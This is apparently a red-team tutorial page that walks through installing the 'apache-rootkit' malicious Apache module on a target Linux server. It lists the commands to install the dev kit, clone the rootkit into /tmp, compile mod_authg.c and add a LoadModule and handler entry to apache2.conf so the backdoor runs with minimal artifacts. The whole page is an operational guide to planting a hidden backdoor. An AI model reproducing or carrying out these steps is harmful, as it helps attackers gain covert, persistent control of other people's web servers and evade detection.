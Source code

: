 The apache-rootkit is a malicious Apache module with rootkit functionality that can be effortlessly loaded into an Apache2 configuration with minimal artifacts.

Here are the steps to setup the apache-rootkit module on a target Linux system:

To begin, install the Apache2 development kit on the target system by executing the following command.

```bash
sudo apt-get install apache2-dev
``` 

To compile the module source code into a shared object, we need the Apache2 development kit.

Shared objects are similar to DLLs in Windows. They are libraries loaded by programs during start-up and are commonly utilized to extend functionality.

Before cloning the apache-rootkit repository, we must navigate to the temporary directory on the target system. To accomplish this, run the following command:

```bash
cd /tmp
```

To proceed, we need to clone the apache-rootkit repository onto the target system. Use the following command to perform the cloning process:

```bash
git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git
```

Once the repository is cloned, go to the "apache-rootkit" directory using the following command:

```bash
cd apache-rootkit
```

Compile the module now by executing the following command:

```bash
apxs -c -i mod_authg.c
````

The module will be compiled and copied over to the /usr/lib/apache2/modules directory, as demonstrated in the screenshot below:

![](../../assets/img/redteam/ld2.png)

To load the "mod\_authg.so" module into the Apache2 configuration file, execute the following command:

```bash
vim /etc/apache2/apache2.conf
````

Next, you need to add the following configuration at the top of the file to ensure that the module is loaded correctly:

```bash
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so <Location /authg> SetHandler authg </Location>
```
